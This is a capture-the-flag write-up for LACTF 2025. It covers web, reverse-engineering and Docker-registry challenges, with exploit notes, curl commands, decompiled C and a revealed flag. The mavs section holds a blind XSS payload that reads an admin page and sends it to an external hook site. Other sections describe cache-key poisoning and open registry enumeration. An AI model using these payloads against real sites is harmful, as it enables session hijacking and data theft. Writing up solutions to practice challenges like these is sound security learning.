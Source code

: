 ```yaml
---
date: 2025-02-11
description: blind xss, web cache poisoning, mysql comparison, dockerapi
platform: LACTF 2025
categories: Web, Misc, Rev
tags:
  - web-cache-poisoning
  - xss/blind
  - flask
  - code-review
  - expressJS
  - broken-access-control
  - mysql
  - docker
duration:
---
```

# web 
## i spy 
bunch of inspect challenges  
- robots.txt
- sitemap.xml
- DELETE site
- `nslookup -type=TXT i-spy.chall.lac.tf`

## mavs
#xss 
blind xss protected with HttpOnly cookie
```html
<img src=x onerror="fetch('/admin').then(response=>response.text()).then(data=>{fetch('https://<hooksite>?flag='+encodeURI(data));});">
```
## chessbased
- /search?q=encodeURI()

search backend endpoint
```bash
curl -X POST "https://chessbased.chall.lac.tf/search" -H "Referer: https://chessbased.chall.lac.tf/" -d '{"q": "f4"}' -H "Content-Type: application/json"
```
```
/search POST
 referrer: frontend
 json.stringify { q: query }
 admin_cookies
 
 {q:'flag'}
{ @htmlsearch resault }
```

vulnerability: no access controls  on `/render` premium 
```js
app.get('/render', (req, res) => {
  const id = req.query.id;
  const op = lookup.get(id);
  res.send(`
    <p>${op?.name}</p>
    <p>${op?.moves}</p>
  `);
});
```
```bash
curl "https://chessbased.chall.lac.tf/render?id=flag"                       
    <p>flag</p>
    <p>lactf{t00_b4s3d_4t_ch3ss_f3_kf2}</p>
```
## Cache it to win it!
caching function keys can be cheated 
`uuid="a1afd0cd-edde-4854-8566-3090feb9c8e3"` > ` A1AFD0CDeDDE485485663090FEB9C8E3xxxx` 
```python
def normalize_uuid(uuid: str):
    uuid_l = list(uuid)
    i = 0
    for i in range(len(uuid)):
        uuid_l[i] = uuid_l[i].upper()
        if uuid_l[i] == "-":
            uuid_l.pop(i)
            uuid_l.append(" ")

    return "".join(uuid_l)

def make_cache_key():
    return f"GET_check_uuids:{normalize_uuid(request.args.get('uuid'))}"[:64]  #
```
> mysql ignores trailing whitespaces special characters when comparing checks and ignores cases 

```python
# A1AFD0CDeDDE485485663090FEB9C8E3++++ still valid 
run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))

res = run_query("SELECT * FROM users WHERE id = %s;", (user_uuid,))
```

[[purel]]

# Rev
## paraflag
```c
undefined4 main(void)

{
  int iVar1;
  size_t sVar2;
  size_t sVar3;
  ulong i;
  undefined4 uVar5;
  char encrypted_flag [256]; // flag is 
  char flag [256]; 
  
  printf("What do you think the flag is? ");
  fflush(stdout);
 
  fgets(flag,0x100,stdin); // is used to read a line of input from the standard input (`stdin`) and store it in `flag`.
  sVar2 = strcspn(flag,"\n"); // len until \n
  flag[sVar2] = '\0'; // replace newline with null terminator

  sVar3 = strlen(target);
  if (sVar3 == sVar2) {
    if (1 < sVar2) { // 36 
      i = 0; 
      do {
        encrypted_flag[i * 2] = flag[i];
        // l 
        encrypted_flag[i * 2 + 1] = flag[i + (sVar2 >> 1)];
        // o = e8 18 = 36%2 0+18
        //  sVAR2 >> 2 == 1 // 2 
        i = i + 1;
      } while (i < sVar2 >> 1);
    }
    encrypted_flag[sVar2] = '\0';
    printf("Paradoxified: %s\n",encrypted_flag);
    iVar1 = strcmp(target,encrypted_flag);
    if (iVar1 == 0) {
      puts("That\'s the flag! :D");
      uVar5 = 0;
    }
    else {
      puts("You got the flag wrong >:(");
      uVar5 = 0;
    }
  }
  else {
    puts("Bad length >:(");
    uVar5 = 1;
  }
  return uVar5;
}

// l_alcotsft{_tihne__ifnlfaign_igtoyt} found in ghidra
```

# Misc 
## broken_ship
docker-api dowload access fslayers 
https://broken-ships.chall.lac.tf/v2 - `docker-distribution-api-version: registry/2.0`
https://broken-ships.chall.lac.tf/v2/_catalog
https://broken-ships.chall.lac.tf/v2/rms-titanic/tags/list
https://broken-ships.chall.lac.tf/v2/rms-titanic/manifests/wreck

fetching artifacs fs layers
https://broken-ships.chall.lac.tf/v2/rms-titanic/blobs/sha256:bae434f430e461b8cff40f25e16ea1bf112609233052d0ad36c10a7ab787e81c

```json
   "fsLayers": [
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:99aa9a6fbb91b4bbe98b78d048ce283d3758feebfd7c0561c478ee2ddf23c59f"
      },
      {
         "blobSum": "sha256:529375a25a3d641351bf6e3e94cb706cda39deea9e6bdc3a8ba6940e6cc4ef65"
      },
      {
         "blobSum": "sha256:60b6ee789fd8267adc92b806b0b8777c83701b7827e6cb22c79871fde4e136b9"
      },
      {
         "blobSum": "sha256:bae434f430e461b8cff40f25e16ea1bf112609233052d0ad36c10a7ab787e81c"
      },
      {
         "blobSum": "sha256:9082f840f63805c478931364adeea30f4e350a7e2e4f55cafe4e3a3125b04624"
      }
   ],
```
flag found in one of the blobs

